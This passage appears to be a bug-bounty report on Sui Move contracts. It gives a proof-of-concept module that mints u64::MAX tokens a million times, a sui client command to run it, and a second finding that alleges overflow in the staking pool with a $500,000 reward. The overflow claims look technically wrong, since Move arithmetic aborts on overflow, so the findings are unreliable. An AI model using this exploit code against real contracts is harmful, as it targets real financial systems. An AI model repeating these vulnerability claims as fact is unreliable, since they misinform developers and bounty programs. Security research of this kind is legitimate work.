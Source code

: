 ### **Proof of Concept**
```move
module exploit::token_overflow {
    use coiner::coin_factory;
    use sui::coin::TreasuryCap;
    use sui::tx_context::TxContext;

    public fun exploit_mint_overflow(
        cap: &mut TreasuryCap<coin_factory::COIN_FACTORY>,
        ctx: &mut TxContext
    ) {
        // Mint maximum possible tokens
        let max_value = 18446744073709551615u64; // u64::MAX
        let large_size = 1000000u64; // 1 million iterations

        // Creates value * size = 18.4 quintillion * 1 million tokens
        let _tokens = coin_factory::mint_vec(cap, max_value, large_size, ctx);
    }
}
```

### **Reproduction Steps**
1. Deploy coin factory contract on local testnet
2. Obtain TreasuryCap object ID
3. Execute exploit with maximum parameters:
   ```bash
   sui client call --package <PACKAGE_ID> --module coin_factory \
   --function mint_vec --args <TREASURY_CAP_ID> 18446744073709551615 1000000
   ```
4. Verify total supply exceeds 10B limit

---

## 🚨 **CRITICAL VULNERABILITY #2: Staking Pool Integer Overflow**

### **Vulnerability Details**
- **ID**: SUI-CRIT-002
- **Severity**: CRITICAL
- **Reward**: $500,000
- **File**: `/crates/sui-framework/packages/sui-system/sources/staking_pool.move:308`
- **Impact**: Unlimited staking rewards through integer overflow

### **Technical Description**
Unchecked addition in staking pool token supply calculation:

```move
fungible_staked_sui_data.total_supply =
    fungible_staked_sui_data.total_supply + pool_token_amount;  // <- VULNERABLE LINE 308
```

